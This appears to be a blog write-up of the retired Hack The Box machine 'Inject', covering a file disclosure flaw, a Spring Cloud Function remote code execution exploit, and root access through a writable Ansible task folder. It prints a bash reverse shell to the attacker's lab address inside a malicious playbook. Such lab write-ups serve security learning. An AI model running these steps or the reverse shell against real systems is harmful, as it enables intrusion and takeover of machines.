 ```yaml
---
title: Inject
categories: [HTB]
tags: complete retired easy linux
img_path: /assets/img/HTB/inject/
---
```


![inject.card](Inject.png)

> Inject is an easy Linux machine from Hack the Box. Here is the tldr;
>
> * There is a website running on port `8080` with a page for uploading images. There is a local file disclosure vulnerability that allows us to discover a version of Spring Cloud along with credentials for the user `phil`.
> * We're able to take advantage of that vulnerability to get a reverse shell as the user `frank`.  We're able to `su` to phil with the credentials we found earlier.
> * By running pspy, we discover that there is an Ansible Playbooks automation running as root. By creating a new yaml file in `/opt/automation/tasks` we're able to get a reverse shell as root.
{: .prompt-tip }

## Enumeration

### nmap

```
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/inject]
└─$ nmap 10.129.35.51                              
[sudo] password for dimondsec: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-11 21:36 MST
Nmap scan report for 10.129.35.51
Host is up (0.66s latency).
Not shown: 933 closed tcp ports (reset), 65 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 6.38 seconds
```

We've only got two ports open, `22` and `8080`. We likely won't find anything with port 22 so let's head over to 8080 in a broswer.

We've got a website, many of the links don't do anything. However, it looks like there may be a site under construction (maybe a subdomain??) We also have an upload page that will only accept images. If we upload an image, it looks like there is an LFI vulnerability in the URL.

To take advatage of this, we can visit the file we just uploaded, intercept the request in burpsuite, and replace the image path with the file we want to see. If we pull up the `/etc/passwd`, we can see that we have three users that can login, `root`, `frank`, and `phil`.

### Local file disclosure

![LFI in burpsuite](lfi.png)

```
root:x:0:0:root:/root:/bin/bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```

Beyond being able to view individual files, if we put in a  directory we can also see the files in that directory. If we take a look in Frank's home directory, there is a folder `.m2` that stands out, in there we find a `settings.xml` file. In that file we find some credentials for the user phil. It doesn't work with SSH, but they will come in handy later.

In the home directory for phil, we can see the user.txt file with our flag, but don't have permission to access it.

![settings file](frank.settings.xml.png)

Next up, let's see if we can find out more information about the web application that is running by checking out `/var/www/`. In there we find a directory called `WebApp` with some more files and directories.

![webapp directory listing](webapp.dir.png)

If we open the `pom.xml` (a common configuration file), we find that it is running a vulnerable version of `Spring Cloud` (3.2.2). 

![pom file](springcloudframework.png)

There is an exploit [here](https://github.com/randallbanner/Spring-Cloud-Function-Vulnerability-CVE-2022-22963-RCE) for the version that's running that gives us remote code execution. I would encourage you to read more about how it works, but basically it creates a shell.sh in your current working directory, starts a basic web server, sends it to our target, makes the shell file executable, and then runs it to give us a reverse shell. It does all of this by sending commands in a specific header in our requests.

![screenshot of request header in expoit script](exploit.command.example.png)

In this request, we can see that it is pinging our attacker machine once to test the connection before continuing on.

Before we can run the exploit, we need to update our listening IP and port, as well as our target IP.

![updaing the script](update.exploit.png)

## User

Before we run our exploit, let's make sure we have a listener open on the port we specified in the script (for me that was 9001). Then let's launch the script and we have a shell a frank!

![we have a shell](wehaveashell.png)

Let's upgrade our shell a little to make it more stable with `$ python3 -c 'import pty;pty.spawn("/bin/bash")'`.

We know our user flag isn't readable by frank, but it is by phil. We found a password used by phil earlier, let's see if we can swith users from frank to phil.

It work! We can now access our user.txt flag.

Now we have a shell with `frank`! From our enumeration earlier, we know that `user.txt` is owned by `phil`, and we already have his password from a file we found a while ago. So `su` to phil and we have our flag.

```shell
phil@inject:~$ cat user.txt
cat user.txt
6a6254c04b6c0d83e57e13a22f51832b
```

Now that we have user, let's run pspy and see if we can see anything of interest that might be running. Start by putting the `pspy64` script in a www folder and starting up a basic web server. Then on our shell, we use wget to download the script and make it executable.

### Ansible Playbook

When we launch it and watch for a while, we see that there is an ansible playbook automation running as root.

![asbibe in pspy](ansible.pspy64.png)

Since there is an automated task running with Ansible Playbooks running as root, and we have write access to `/opt/automation/tasks` folder (see post about privesc with ansible [here](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)), we place a new `.yml` file similar to the existing file in the tasks directory with a command that will be run next time the automation is triggered and give us a shell as root.

Here is what our file  will look like:

```yaml
- hosts: localhost
  tasks:
    - name: Nothing to see here
      ansible.builtin.shell: bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'
```

## Root

To make things easier (since I don't have a very stable shell), I created the new yaml file on my attacker machine, used wget to download it onto the target, then copied it into the `/opt/automation/tasks` folder. Make sure to have a listener open and once the ansible automation runs you will have a shell as root!

![we have root](root.png)